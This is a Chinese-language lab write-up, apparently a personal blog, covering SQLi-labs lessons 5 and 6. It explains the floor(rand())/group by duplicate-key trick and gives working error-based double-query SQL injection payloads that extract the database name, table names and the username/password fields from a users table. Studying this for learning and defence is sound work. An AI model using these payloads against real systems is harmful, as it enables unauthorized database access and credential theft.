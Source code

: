 ### floor()
floor()函数将返回小于等于所给参数的最大整数部分，比如floor(1.4)=1 floor(0.2)=0
### count()
将对同一字段出现的次数进行统计
### group by
group by用在select语句当中对重复出现的项目进行归纳，建立一张临时表，收集并分类字段
### 总结
总体的思路就是，对rand()结合floor()进行查询，产生的结果只有两种，分别是0和1，再用group by进行分组，也就是说，假设是对floor(rand(14))进行查询，那么其值的分布为0，1，1，0，1，当进行查询的时候首先执行一次rand()函数查询有没有0字段，发现没有，那么就要进行插入到临时表中的操作，然而进行插入的时候就会又执行一次rand()函数，所以此时插入到表中的数据应该是字段1出现了一次，再进行第二次查询的时候floor(rand())函数产生的最终结果是1，查询到临时表中记录有，所以次数加一，当进行到第三次查询的时候floor(rand())函数产生结果0，临时表中没有，于是乎进行第二次插入，插入时再次执行随机数函数产生结果为1，临时表中有字段为1的值，由于UNIQUE限制不能有相同字段出现，那么此次插数据时就会发生错误。
我们不将想要显示的值直接显示，而是用concat函数将其与错误信息的输出进行拼接，就可以在错误信息中看到想要的内容。(个人初步理解，写得有点乱)
## 步骤
1.还是单引号先检测发现页面回传不对，猜测可能存在单引号注入
2.使用二次查询注入手法构造payload:
`?id=0' union select null,count(*),concat((select database()),floor(rand()*2))as a from information_schema.schemata group by a --+`
![sql0501](https://github.com/404sprint/404sprint.github.io/tree/master/img/sql%E5%9B%BE%E7%89%87/less5/sql0501)
该代码查询当前所在的数据库security，接下来要对其中的表进行查询
payload:
`?id=0' union select null,count(*),concat((select table_name from information_schema.columns where table_schema='security'),floor(rand()*2))as a from information_schema.columns group by a--+`
但是呢，如图，我们现在又遇到了新的问题，就是返回的结果不止一行，但是要求只显示一行的结果，我们这里就可以利用SQL语句LIMIT属性对返回的结果进行行限制
![sql0502](https://github.com/404sprint/404sprint.github.io/tree/master/img/sql%E5%9B%BE%E7%89%87/less5/sql0502)
payload:
`?id=0' union select null,count(*),concat((select table_name from information_schema.columns where table_schema='security' limit 0,1),floor(rand()*2))as a from information_schema.columns group by a--+`

结果回显
![sql0503](https://github.com/404sprint/404sprint.github.io/tree/master/img/sql%E5%9B%BE%E7%89%87/less5/sql0503)
接着，用同样的方法对显示位置进行选择，直到对所有的表进行输出一遍。
找到users表，对其中的内容进行输出
找到跟用户有关的两个关键字段username和password，然后选中进行输出，但是只能输出一条结果
`id=0' union select null,count(*),concat((select concat('|',username,'~',password) from users limit 0,1),floor(rand()*2) as a from information_schema.columns group by a--+`

![sql0504](https://github.com/404sprint/404sprint.github.io/tree/master/img/sql%E5%9B%BE%E7%89%87/less5/sql0504)

***
# less 6(双查询注入双引号闭合字符型)
***
## 原理
仍旧是双查询注入，只不过是改变了闭合方式
## 步骤
通体思路，检查注入点注入类型，检查显示字段数，爆库名表命字段，输出
![sql0601](https://github.com/404sprint/404sprint.github.io/tree/master/img/sql%E5%9B%BE%E7%89%87/less6/sql0601)
***
